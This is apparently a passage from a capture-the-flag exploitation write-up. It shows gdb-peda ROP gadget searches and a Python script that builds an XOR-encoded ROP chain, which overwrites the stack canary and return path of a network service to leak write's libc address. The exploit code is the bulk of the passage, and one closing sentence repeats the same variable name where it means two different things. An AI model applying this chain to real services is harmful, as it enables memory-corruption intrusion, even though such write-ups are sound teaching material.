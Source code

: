 ```
gdb-peda$ ropsearch "pop rdi" 0x0000555555554000 0x0000555555556000
Searching for ROP gadget: 'pop rdi' in range: 0x555555554000 - 0x555555556000
0x0000555555554f73 : (b'5fc3')	pop rdi; ret
gdb-peda$ ropsearch "pop rdx" 0x0000555555554000 0x0000555555556000
Searching for ROP gadget: 'pop rdx' in range: 0x555555554000 - 0x555555556000
0x0000555555554b53 : (b'5ac3')	pop rdx; ret
```
Note: if `ropsearch` doesn't work, you need to `apt-get install nasm`.

We'll add these gadgets to our script:
```python
gadget_pop_rsi_pop_r15_ret = text_section_base + 0xf71
gadget_pop_rdi_ret         = text_section_base + 0xf73
gadget_pop_rdx_ret         = text_section_base + 0xb53
```
Note: when we'll use `pop_rsi`, we have to remember that there's another `pop` taking place. 

So after leaking the canary, RBP and return address, we construct another payload this time to leak the address of `write` (by using `write`! isn't that confusing?)

```python
gadget_pop_rsi_pop_r15_ret = text_section_base + 0xf71
gadget_pop_rdi_ret         = text_section_base + 0xf73
gadget_pop_rdx_ret         = text_section_base + 0xb53

text_section_write_got = text_section_base + 0x202020
text_section_write_plt = text_section_base + 0x910

# After leaking the necessary values,
# We create a new payload
payload = "davide" + "AA"

payload += p64(gadget_pop_rdi_ret ^ Ds)
payload += p64(0x4 ^ Ds)
payload += p64(gadget_pop_rsi_pop_r15_ret ^ Ds)
payload += p64(text_section_write_got ^ Ds)
payload += p64(0x1337)   # pop r15, dont-care
payload += p64(gadget_pop_rdx_ret ^ Ds)
payload += p64(0x8 ^ Ds)
payload += p64(text_section_write_plt ^ Ds)


# Pad to the end of buffer
payload += "B" * (1032 - len(payload))

payload += p64(canary ^ Ds)
payload += p64(buffer_addr ^ Ds)
payload += p64(text_section_leave_ret ^ Ds)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(SERVER)
s.recv(4096)  # server hello
s.send(payload)

write_libc = s.recv(8)
print "write@libc:", hex(unpack(write_libc))
s.close()
```
Note how `text_section_write_got` and `text_section_write_got` are not the same thing! one is an entry in the GOT which is not executable, the other is the PLT stub of `write`. 
